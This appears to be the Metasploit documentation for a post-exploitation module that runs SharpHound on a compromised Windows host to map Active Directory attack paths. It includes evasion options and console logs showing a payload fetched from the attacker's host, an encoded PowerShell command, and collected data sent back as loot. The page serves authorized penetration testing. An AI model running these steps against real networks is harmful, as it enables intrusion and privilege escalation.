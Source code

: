 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilage elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

  **CollectionMethode**

  The collection method to use. This parameter accepts a comma separated list of values. Accepted values are Default, Group,
  LocalAdmin, RDP, DCOM, GPOLocalGroup, Session, ObjectProps, ComputerOnly, LoggedOn, Trusts, ACL, Container, DcOnly, All.
  The default method is `Default`.

  **Domain**

  Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

  **Stealth**

  Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

  **ExcludeDomainControllers**

  Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

  **DomainController**

  Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

  **LdapPort**

  Override the port used to connect to LDAP.

  **SecureLdap**

  Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

  **DisableKerbSigning**

  Disables Kerberos Signing on requests. The default value is `false`.

  **SkipPing**

  Skip all ping checks for computers. This option will most likely be slower as API calls will be made to all computers regardless of
  being up Use this option if ping is disabled on the network for some reason. The default value is `false`.

  **OutputFolder**

  Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

  **Method**

  Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
      payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the sharphound.ps1
     file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

  **EncryptZip**

  If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

  **NoSaveCache**

  If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

```
meterpreter > run post/windows/gather/bloodhound

[*] Using URL: http://0.0.0.0:8080/bvqUdtHUQ4De1O3
[*] Local IP: http://192.168.1.136:8080/bvqUdtHUQ4De1O3
[*] Invoking BloodHound with: Invoke-BloodHound -CollectionMethod Default -Threads 10 -JSONFolder "C:\Windows\TEMP" -PingTimeout 250 -LoopDelay 300 
[*] Initializing BloodHound at 6:44 AM on 4/29/2019
[*] Resolved Collection Methods to Group, LocalAdmin, Session, Trusts
[*] Starting Enumeration for uplift.local
[*] Status: 58 objects enumerated (+58 �/s --- Using 58 MB RAM )
[*] Finished enumeration for uplift.local in 00:00:00.6365050
[*] 0 hosts failed ping. 0 hosts timedout.
[*] 
[*] Compressing data to C:\Windows\TEMP\20190429064444_BloodHound.zip.
[*] You can upload this file directly to the UI.
[*] Finished compressing files!
```

### Windows 10 non-AD host, Windows Server 2012 AD, Disk Method

```
meterpreter > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/gather/bloodhound) > set method disk
method => disk
msf5 post(windows/gather/bloodhound) > exploit

[*] Uploading sharphound.exe as C:\Users\user\Desktop\qehojlwml.exe
[*] Loading BloodHound with: . C:\Users\user\Desktop\qehojlwml.exe --outputdirectory "C:\Users\user\AppData\Local\Temp" --zipfilename eiqxerh --encryptzip --nosavecache 
[+] EXECUTING:
powershell.exe -EncodedCommand LgAgAEMAOgBcAFUAcwBlAHIAcwBcAHQAYQByAGEAXABEAGUAcwBrAHQAbwBwAFwAcQBlAGgAbwBqAGwAdwBtAGwALgBlAHgAZQAgAC0ALQBvAHUAdABwAHUAdABkAGkAcgBlAGMAdABvAHIAeQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAdABhAHIAYQBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwACIAIAAtAC0AegBpAHAAZgBpAGwAZQBuAGEAbQBlACAAZQBpAHEAeABlAHIAaAAgAC0ALQBlAG4AYwByAHkAcAB0AHoAaQBwACAALQAtAG4AbwBzAGEAdgBlAGMAYQBjAGgAZQAgADsAIAA= -InputFormat None
[*] ----------------------------------------------
[*] Initializing SharpHound at 4:19 PM on 6/3/2020
[*] ----------------------------------------------
[*] 
[*] Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[*] 
[*] [+] Creating Schema map for domain HOODIECOLA.COM using path CN=Schema,CN=Configuration,DC=HOODIECOLA,DC=COM
[*] [+] Cache File not Found: 0 Objects in cache
[*] 
[*] [+] Pre-populating Domain Controller SIDS
[*] Status: 0 objects finished (+0) -- Using 19 MB RAM
[*] Status: 63 objects finished (+63 21)/s -- Using 26 MB RAM
[*] Enumeration finished in 00:00:03.3219377
[*] Compressing data to C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip
[*] Password for Zip file is QEqUpTtU0v. Unzip files manually to upload to interface
[*] 
[*] SharpHound Enumeration Completed at 4:19 PM on 6/3/2020! Happy Graphing!
[*] 
[+] Downloaded C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip: /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip
[+] Zip password: QEqUpTtU0v
[*] Deleting C:\Users\user\Desktop\qehojlwml.exe
[*] Post module execution completed

msf5 post(windows/gather/bloodhound) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type                     Data
 ----                     ----          -------  ----  --------  ----                     ----
 2020-06-03 23:27:05 UTC  2.2.2.2                           Sharphound Zip Password  "Bloodhound/Sharphound loot /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip password is QEqUpTtU0v"

```
